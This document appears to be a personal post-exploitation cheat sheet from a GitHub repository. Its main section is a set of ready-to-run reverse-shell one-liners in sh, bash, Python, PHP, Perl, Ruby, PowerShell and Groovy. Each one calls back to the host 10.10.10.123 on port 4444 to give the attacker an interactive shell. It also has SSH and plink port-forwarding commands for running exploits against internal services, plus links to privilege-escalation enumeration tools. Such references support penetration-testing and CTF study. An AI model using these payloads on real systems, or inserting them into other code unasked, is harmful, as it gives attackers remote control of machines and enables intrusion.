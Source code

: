 # Post-exploitation
Tools and techniques I use for post-exploitation:
- [Reverse Shell](#reverse-shell)
  - [sh](#sh)
  - [bash](#bash)
  - [python](#python)
  - [php](#php)
  - [perl](#perl)
  - [ruby](#ruby)
  - [powershell](#powershell)
  - [groovy](#groovy)
- [Port Forwarding](#port-forwarding)
- [Linux](#linux)
  - [Enumeration](#enumeration-on-linux)
  - [Privilege Escalation](#)
- [Windows](#windows)
  - [Enumeration](#enumeration-on-windows)
  - [Privilege Escalation](#)

----

## Reverse Shell

### sh
Works on Linux and FreeBSD.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.123 4444 >/tmp/f
```

### bash
```bash
bash -i >& /dev/tcp/10.10.10.123/4444 0>&1
``` 

### python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.123",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### php
```php
# One liner
php -r '$sock=fsockopen("10.10.10.123",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# Reverse shell in file
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.123/4444 0>&1'");
```

### perl
```perl
perl -e 'use Socket;$i="10.10.10.123";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.123",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### powershell
```powershell
# Create a powershell script with the name reverse.ps1
function reverse_powershell {
    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.123",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
}

# Execute reverse shell
powershell -ExecutionPolicy bypass -command "Import-Module reverse.ps1; reverse_powershell"
```

### groovy
```groovy
String host="10.10.10.123";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

----

## Port Forwarding
In some cases, a root process is bound to an internal port, with which it communicates.  
If for some reason, an exploit can't run locally on the target machine, the port can be forwarded using SSH/plink.exe to your local machine.  
The exploit code can then be run on your local machine at whichever port you chose.  

### On linux
```bash
ssh -R <local-port>:127.0.0.1:<target-port> <username>@<local-machine>
```

### On windows
```powershell
plink.exe <user>@<kali> -R <kali-port>:<target-IP>:<target-port>
```

### Other tools for port forwarding
- [Chisel](https://github.com/jpillora/chisel)

----

## Linux
**work in progress**

### Enumeration on linux
Automated enumeration tools:
- [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [Linux smart enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

Useful links:
- [Enumeration Checklist](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)

----

## Windows
**work in progress**

### Enumeration on windows
Automated enumeration tools:
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [SharpUp](https://github.com/GhostPack/SharpUp)
